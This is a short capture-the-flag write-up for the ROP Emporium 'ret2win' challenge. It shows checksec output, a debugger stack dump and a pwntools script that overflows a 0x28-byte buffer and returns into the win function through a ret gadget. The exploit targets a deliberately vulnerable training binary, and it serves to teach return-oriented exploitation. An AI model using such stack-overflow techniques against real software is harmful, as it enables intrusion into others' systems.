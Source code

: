 # ret2win(ROP Emporium 1)

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### Solution
ret2win function: 0x400756

after read, stack:
```
00:0000│ rsi rsp 0x7fffffffdc20 ◂— 'aaaaaaa\n'
01:0008│-018     0x7fffffffdc28 ◂— 0
... ↓            2 skipped
04:0020│ rbp     0x7fffffffdc40 —▸ 0x7fffffffdc50 
05:0028│+008     0x7fffffffdc48 —▸ 0x4006d7 (main+64) 
```
so, 0x28 chars and '0x400756' needed.

but, to avoid stack alignment constraint, return to any `ret` interaction.

### Script
```python
from pwn import *

conn = process('./ret2win')

conn.sendafter('> ', b'a' * 0x28 + p64(0x4006e7) + p64(0x400756))
conn.interactive()
```